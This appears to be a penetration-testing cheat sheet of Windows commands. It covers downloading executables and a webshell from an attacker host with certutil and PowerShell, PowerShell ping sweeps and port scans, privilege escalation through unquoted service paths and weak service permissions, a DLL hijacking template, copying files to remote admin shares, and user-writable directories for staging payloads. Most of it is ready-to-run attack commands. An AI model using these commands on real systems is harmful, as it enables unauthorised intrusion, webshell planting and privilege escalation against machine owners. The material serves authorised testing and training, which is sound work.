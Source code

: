   # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100:8001/FILE.exe OUTFILE.exe
or
powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"
or
powershell iwr -uri 'http://10.10.16.111/FILE.exe' -Outfile C:\\Windows\\Tasks\\FILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Get open/connected ports
```
netstat -aon
```

# Scans
Subnet ping scan (about 5 seconds per host)
```
1..20 | % {"10.10.123.$($_): $(Test-Connection -count 1 -comp 10.10.123.$($_) -quiet)"}
```
Port scan single host ([other port scans](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.123.110",$_)) "Port $_ is open!"} 2>$null
```

# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


# DLL Injections
- x86_64-w64-mingw32-gcc-win32

__hello_program.c__
```
#include <windows.h>
#include <stdio.h>

int main( void )
{
	HINSTANCE hDll;

	// Load a DLL
	hDll = LoadLibrary(TEXT("yoyo.dll"));

	// If DLL Was Loaded
	if (hDll != NULL){
		printf("DLL Found\n");
	} else {
		printf("DLL NOT FOUND!\n");
	}

	return 0;
}
```

__dll_template.c__
```
#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			MessageBox(
				Null, // Owner
				"Some Message Text",
				"The Title",
				MB_ICONERROR | MB_OK // TYPE
			);
		break;
	}
	return TRUE;
}
```

# File Moving
```
robocopy .\ \\REMOTEIP\C$\Windows\Tasks\
```

## Tips
1. https://github.com/ankh2054/windows-pentest
2. https://wadcoms.github.io/

__Dirs writable by default by normal users:__
```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```
